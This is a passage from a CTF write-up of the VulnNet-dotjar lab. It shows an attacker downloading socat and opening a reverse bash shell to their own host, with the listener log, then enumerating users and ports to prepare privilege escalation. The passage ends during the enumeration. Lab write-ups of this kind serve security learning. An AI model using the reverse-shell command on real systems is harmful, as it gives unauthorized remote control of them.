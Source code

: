 ```shell
wget http://10.9.0.253/socat -O /tmp/socat;chmod +x /tmp/socat;/tmp/socat TCP:10.9.0.253:4444 EXEC:'/bin/bash',pty,stderr,setsid,sigint,sane
```

```shell
┌[root♥siunam]-(~/ctf/thm/ctf/VulnNet-dotjar)-[2023.01.23|14:48:44(HKT)]
└> socat -d -d file:`tty`,raw,echo=0 TCP-LISTEN:4444
2023/01/23 14:50:29 socat[51373] N opening character device "/dev/pts/2" for reading and writing
2023/01/23 14:50:29 socat[51373] N listening on AF=2 0.0.0.0:4444
                                                                 2023/01/23 14:50:39 socat[51373] N accepting connection from AF=2 10.10.203.203:57598 on AF=2 10.9.0.253:4444
                                                                   2023/01/23 14:50:39 socat[51373] N starting data transfer loop with FDs [5,5] and [7,7]
                                               web@vulnnet-dotjar:/$ 
web@vulnnet-dotjar:/$ export TERM=xterm-256color
web@vulnnet-dotjar:/$ stty rows 22 columns 107
web@vulnnet-dotjar:/$ ^C
web@vulnnet-dotjar:/$ 
```

## Privilege Escalation

### web to jdk-admin

Let's do some basic enumerations!

**System users:**
```shell
web@vulnnet-dotjar:/$ cat /etc/passwd | grep '/bin/bash'
root:x:0:0:root:/root:/bin/bash
jdk-admin:x:1000:1000:jdk-admin,,,:/home/jdk-admin:/bin/bash
web:x:1001:1001:,,,:/home/web:/bin/bash

web@vulnnet-dotjar:/$ ls -lah /home
total 16K
drwxr-xr-x  4 root      root      4.0K Jan 15  2021 .
drwxr-xr-x 23 root      root      4.0K Jan 15  2021 ..
drwxr-x--- 17 jdk-admin jdk-admin 4.0K Jan 31  2021 jdk-admin
drwxr-xr-x  4 web       web       4.0K Jan 16  2021 web
```

- Found 2 system user: `jdk-admin`, `web`

**Listening ports:**
```shell
web@vulnnet-dotjar:/$ ss -tunlp
NetidState  Recv-Q  Send-Q         Local Address:Port    Peer Address:Port                                 
udp  UNCONN 0       0                    0.0.0.0:5353         0.0.0.0:*                                    
udp  UNCONN 0       0                    0.0.0.0:49400        0.0.0.0:*                                    
udp  UNCONN 0       0              127.0.0.53%lo:53           0.0.0.0:*                                    
udp  UNCONN 0       0         10.10.203.203%eth0:68           0.0.0.0:*                                    
udp  UNCONN 0       0                       [::]:5353            [::]:*                                    
udp  UNCONN 0       0                       [::]:38227           [::]:*                                    
tcp  LISTEN 0       128            127.0.0.53%lo:53           0.0.0.0:*                                    
tcp  LISTEN 0       1         [::ffff:127.0.0.1]:8005               *:*     users:(("java",pid=408,fd=85)) 
```